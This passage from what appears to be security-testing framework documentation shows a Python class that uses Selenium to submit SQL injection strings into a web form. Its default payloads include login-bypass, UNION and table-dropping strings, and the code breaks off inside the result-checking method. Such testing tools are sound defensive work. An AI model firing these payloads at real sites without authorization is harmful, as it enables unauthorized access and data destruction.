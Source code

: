 
### Advanced TTP Example: SQL Injection

```python
from scythe.core.ttp import TTP
from scythe.payloads.generators import StaticPayloadGenerator
from selenium.webdriver.common.by import By
from selenium.common.exceptions import NoSuchElementException

class SQLInjectionTTP(TTP):
    def __init__(self, 
                 target_parameter: str,
                 injection_payloads: list = None,
                 expected_result: bool = False,
                 authentication=None):
        super().__init__(
            name="SQL Injection Test",
            description=f"Tests for SQL injection in parameter: {target_parameter}",
            expected_result=expected_result,
            authentication=authentication
        )
        
        self.target_parameter = target_parameter
        
        # Default SQL injection payloads
        default_payloads = [
            "' OR '1'='1",
            "' OR '1'='1' --",
            "' OR 1=1 --",
            "'; DROP TABLE users; --",
            "' UNION SELECT 1,2,3 --",
            "admin'/*"
        ]
        
        self.payload_generator = StaticPayloadGenerator(
            injection_payloads or default_payloads
        )
    
    def get_payloads(self):
        yield from self.payload_generator()
    
    def execute_step(self, driver: WebDriver, payload: str) -> None:
        try:
            # Find input field and inject payload
            input_field = driver.find_element(By.NAME, self.target_parameter)
            input_field.clear()
            input_field.send_keys(payload)
            
            # Submit form
            submit_button = driver.find_element(By.CSS_SELECTOR, "input[type='submit'], button[type='submit']")
            submit_button.click()
            
        except NoSuchElementException as e:
            # Log the error but don't fail the test
            import logging
            logger = logging.getLogger(self.name)
            logger.warning(f"Element not found: {e}")
    
    def verify_result(self, driver: WebDriver) -> bool:
        """Check for SQL injection indicators."""
        page_content = driver.page_source.lower()
        
        # SQL error indicators
```